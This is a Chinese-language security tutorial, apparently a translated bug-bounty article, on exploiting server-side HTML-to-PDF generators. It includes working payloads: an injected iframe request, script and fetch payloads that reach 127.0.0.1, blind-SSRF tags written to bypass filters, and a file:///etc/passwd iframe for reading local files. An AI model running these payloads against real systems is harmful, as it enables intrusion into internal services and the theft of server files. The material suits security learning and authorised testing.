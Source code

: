 PDF 生成可能需要一些时间，因此通常以异步方式（稍后会详细介绍）在服务器端进行。当用户可控制的数据以不安全的方式处理并直接连接到 HTML 模板时，就有可能注入 HTML 或任意 JavaScript 代码。  
  
让我们看几个例子。  
### 充分利用 SSRF 漏洞  
  
看一下下面的代码片段：  
  
![Vulnerable code snippet](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMFRFPRJX98ia00XWgcpicuk2tic5mXshQy0PgRhD3BrjhqUfKWWoeh5JPFHw5121qfiaKppM3sgrW7icHg/640?wx_fmt=png&from=appmsg "")  
  
易受攻击的代码片段  
  
API 端点接收**invoiceData**  
主体参数，并渲染用户可控制的 HTML，而无需进行任何适当的过滤。这意味着我们可以渲染任意 HTML 标签（包括脚本标签），从而允许 JavaScript 在服务器端执行。  
  
利用这些信息，我们可以构造一个payload，代表目标服务器渲染任何资源的响应。例如，发送以下请求，我们就能检索到包含渲染响应的PDF文件：  
```
POST /api/invoice/export HTTP/2Host: app.example.comContent-Type: application/jsonContent-Length: 106{    "invoiceData": "<iframe src=\"https://example.com/\"></iframe>"}
```  
  
![Example of a rendered PDF file](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMFRFPRJX98ia00XWgcpicuk2tz425dJkTh78Dicplez6Dr1YPGAZdrFxD4u0xLq3fo5MnRbWywC9ibjcQ/640?wx_fmt=png&from=appmsg "")  
  
渲染的 PDF 文件示例  
  
遗憾的是，iframe 标签并非在所有情况下都有效。一些目标已经部署了针对 XSS 等注入攻击的主动措施。如果您的脚本标签被拦截，请尝试使用以下有效载荷之一，代表您的目标请求外部内容：  
```
<!-- Using XHR --><script>var x=new XMLHttpRequest();x.onload=(()=>document.write(this.responseText));x.open('GET','http://127.0.0.1');x.send();</script><!-- Using Fetch --><script>fetch('http://127.0.0.1').then(async r=>document.write(await r.text()))</script><!-- Using embed --><embed src="http://127.0.0.1" />
```  
### 利用盲 SSRF 漏洞  
  
在某些情况下，由于激进的 XSS 过滤器，完整的 SSRF 攻击无法实现。在这种情况下，我们仍然可以通过注入盲 XSS Payload 来尝试代表服务器请求外部资源：  
```
<!-- Using base HTML tag --><base href="http://127.0.0.1" /><!-- Loading external stylesheet/script --><link rel="stylesheet" src="http://127.0.0.1" /><script src="http://127.0.0.1"></script><!-- Meta-tag to auto-refresh page --><meta http-equiv="refresh" content="0; url=http://127.0.0.1/" /><!-- Loading external image --><img src="http://127.0.0.1" /><!-- Loading external SVG --><svg src="http://127.0.0.1" /><!-- Useful to bypass blacklists --><input type="image" src="http://127.0.0.1" /><video src="http://127.0.0.1" /><audio src="http://127.0.0.1" /><audio><source src="http://127.0.0.1"/></audio>
```  
  
这些标签在呈现时将强制无头 Web 浏览器请求外部资源，您可以将每个资源的 URL 指向您的私有 OAST 服务器以监控传入的 DNS 和 HTTP 回调。  
  
现在我们已经介绍了利用 PDF 生成器的基础知识，让我们更深入地研究特定环境中的升级技术，以进一步增加我们最初发现的影响！  
## PDF 生成器中不断升级的 SSRF 漏洞  
### 读取本地文件（LFD）  
  
大多数 HTML 转 PDF 生成器都部署了无头 Web 浏览器，这些浏览器以提升的权限运行并可以访问本地文件。这使我们能够读取目标服务器上的本地文件。  
  
以下有效载荷将指示易受攻击的 PDF 生成器在 PDF 导出中包含本地文件的内容：  
```
<!-- Increase the height and width to include the full file contents --><iframe src="file:///etc/passwd" height="1000px" width="1000px"></iframe>
```  
  